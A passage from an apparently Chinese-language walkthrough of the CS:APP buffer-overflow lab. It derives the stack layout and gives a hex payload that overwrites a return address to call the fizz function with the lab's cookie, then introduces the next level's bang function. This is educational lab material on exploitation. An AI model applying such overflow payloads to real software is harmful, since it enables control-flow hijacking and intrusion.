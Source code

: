 在会变函数重能够发现在和 0x804d108 对比，推测这里就是储存的我们的 cookie。打印出来后发现的确是cookie：

![](2019-05-06-20-41-29.png)

后面的逻辑大概就是判断 val 和 cookie 是否相等。所以这里就需要在栈帧构造出下列结构：

| 地址          | 解释                 |
| ------------- | -------------------- |
| ebp + 8 字节  | val                  |
| 返回地址      | 应当为 fizz 的首地址 |
| ebp           | - 占用4字节          |
| ...           | ...                  |
| ebp - 40 字节 | buf 数组的初始地址   |
| ...           | ...                  |
| ebp - 0x38    | esp，栈帧首地址      |

 所以这里应该注入一个 52 字节，前 44 字节为任意值，然后注入 4 字节，为 fizz 函数的首地址 0x08048c42 ，接着离第一个参数开始还有 4 个字节，随意填充，再注入 4 个字节，为 cookies 0x362d5a70. 构造出的答案如下：

 ```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 70 5a 2d 36 0a
```
<img src='2019-05-06-20-25-49.png' width = 450px />

## Level 2: Firecracker

**目标：含有一个 bang 函数，和一个全局变量 global_value，需要注入机器代码，修改 global_value 为 cookies 的值，再调用 bang 函数。**

从文档中获得的 bang 代码如下。

```c
int global_value = 0;

void bang(int val) {
	if (global_value == cookie) {
		printf("Bang!: You set global_value to 0x%x\n", global_value);
		validate(2);
	} else
		printf("Misfire: global_value = 0x%x\n", global_value);
	exit(0);
}
```
